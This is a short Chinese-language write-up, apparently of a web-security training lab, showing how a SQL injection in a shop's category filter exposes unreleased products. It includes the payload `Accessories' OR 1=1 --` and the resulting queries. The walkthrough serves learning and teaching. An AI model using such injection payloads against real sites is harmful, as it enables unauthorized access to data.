




# Retrieve Hidden Data

該購物網站的產品類別篩選器有 SQLi 漏洞，當使用者選擇一個類別時，應用程式會執行以下 SQL 查詢：

```sql
SELECT * FROM products WHERE category = '' AND released = 1
```



### 目標

進行 SQL 注入攻擊使得該應用程式顯示出更多未發佈的產品。

---

### Solution

狀況深入分析：
如點擊 `Accessories` 的按鍵，其網站導向到：


其餘的也是都只有三個內容。

而以以上截圖的 `Accessories` 狀況而言，相當於執行了以下 SQL 查詢：

```sql
SELECT * FROM products WHERE category = 'Accessories' AND released = 1
```

會改變的部分為 category 後 '' 中的內容，於是我在網址最後方輸入 `Accessories' OR 1=1 --`：




多了許多原本未發佈 (released = 0) 的內容。

而如此相當於執行 SQL 查詢：

```sql
SELECT * FROM products WHERE category = 'Accessories' OR 1=1
```